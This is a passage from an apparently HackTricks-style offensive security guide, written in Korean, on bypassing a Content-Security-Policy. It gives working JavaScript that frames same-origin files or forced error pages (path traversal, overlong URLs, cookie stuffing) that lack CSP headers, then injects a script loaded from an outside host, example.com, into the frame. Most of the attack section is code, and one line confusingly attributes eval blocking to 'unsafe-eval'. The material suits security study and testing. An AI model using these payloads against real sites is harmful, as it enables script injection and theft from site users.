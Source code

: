 A configuration such as:
```
Content-Security-Policy: default-src 'self' 'unsafe-inline';
```
코드로 전송된 문자열을 실행하는 모든 함수의 사용을 금지합니다. 예를 들어: `eval, setTimeout, setInterval`은 `unsafe-eval` 설정으로 인해 모두 차단됩니다.

외부 소스의 모든 콘텐츠도 차단되며, 여기에는 이미지, CSS, WebSockets, 특히 JS가 포함됩니다.

### 텍스트 및 이미지 경로

현대 브라우저는 이미지를 HTML로 변환하여 표시를 향상시키는 것으로 관찰됩니다 (예: 배경 설정, 중앙 정렬 등). 따라서 `favicon.ico` 또는 `robots.txt`와 같은 이미지나 텍스트 파일이 `iframe`을 통해 열리면 HTML로 렌더링됩니다. 특히, 이러한 페이지는 종종 CSP 헤더가 없으며 X-Frame-Options를 포함하지 않을 수 있어, 이로부터 임의의 JavaScript 실행이 가능해집니다:
```javascript
frame = document.createElement("iframe")
frame.src = "/css/bootstrap.min.css"
document.body.appendChild(frame)
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```
### 오류를 통한 방법

유사하게, 텍스트 파일이나 이미지와 같은 오류 응답은 일반적으로 CSP 헤더 없이 제공되며 X-Frame-Options를 생략할 수 있습니다. 오류는 iframe 내에서 로드되도록 유도될 수 있으며, 다음과 같은 작업을 허용합니다:
```javascript
// Inducing an nginx error
frame = document.createElement("iframe")
frame.src = "/%2e%2e%2f"
document.body.appendChild(frame)

// Triggering an error with a long URL
frame = document.createElement("iframe")
frame.src = "/" + "A".repeat(20000)
document.body.appendChild(frame)

// Generating an error via extensive cookies
for (var i = 0; i < 5; i++) {
document.cookie = i + "=" + "a".repeat(4000)
}
frame = document.createElement("iframe")
frame.src = "/"
document.body.appendChild(frame)
// Removal of cookies is crucial post-execution
for (var i = 0; i < 5; i++) {
document.cookie = i + "="
}
```
언급된 시나리오 중 하나를 트리거한 후, iframe 내에서 JavaScript 실행은 다음과 같이 가능합니다:
```javascript
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```
## 참고문헌

- [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)

{{#include ../../banners/hacktricks-training.md}}

